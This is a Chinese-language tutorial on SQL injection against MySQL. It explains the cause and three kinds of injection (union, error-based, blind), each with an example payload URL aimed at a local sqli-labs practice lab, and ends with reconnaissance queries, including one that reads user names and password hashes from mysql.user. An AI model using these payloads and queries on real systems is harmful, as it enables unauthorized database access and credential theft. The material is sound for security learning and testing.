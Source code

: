#SQL注入
##概念
	针对SQL注入的攻击行为可描述为通过在用户可控参数中注入SQL语法，破坏原有SQL结构，达到编写程序时意料之外结果的攻击行为。其成因可以归结为以下两个原因叠加造成的：
	1. 程序编写者在处理应用程序和数据库交互时，使用字符串拼接的方式构造SQL语句
	2. 未对用户可控参数进行足够的过滤便将参数内容拼接进入到SQL语句中

##攻击方式和危害
以MySQL为例
###攻击方式
SQL注入的攻击方式根据应用程序处理数据库返回内容的不同，可以分为可显注入、报错注入和盲注：

* 可显注入：攻击者可以直接在当前界面内容中获取想要获得的内容。
* 报错注入：数据库查询返回结果并没有在页面中显示，但是应用程序将数据库报错信息打印到了页面中，所以攻击者可以构造数据库报错语句，从报错信息中获取想要获得的内容
* 盲注：数据库查询结果无法从直观页面中获取，攻击者通过使用数据库逻辑或使数据库库执行延时等方法获取想要获得的内容。

可显注入代码示例：

	http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=0 union select 1,email_id,3 from  emails where id=3 --+
报错注入代码示例：

	http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=0 union select 1,count(*),concat((select email_id from emails where id=5),0x2a,floor(rand(0)*2))x from users group by x--+
盲注代码示例：

	http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and (select substr(email_id,1,1) from emails where id=3) > 'a' --+

##MySQL
获取环境信息

	* 获取环境信息
	SELECT @@version()
	SELECT version()
	*主机信息，IP地址
	SELECT @@hostname;
	*数据目录
	SELECT @@datadir;
	*用户名及密码
	SELECT host, user, password FROM mysql.user;
	*用户名
	SELECT user();
	SELECT system_user();
	SELECT user FROM mysql.user;
用户权限相关

	#列举用户权限
	SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;
	
	#列举用户权限
	SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;
	
	#列举数据库权限
	SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;
	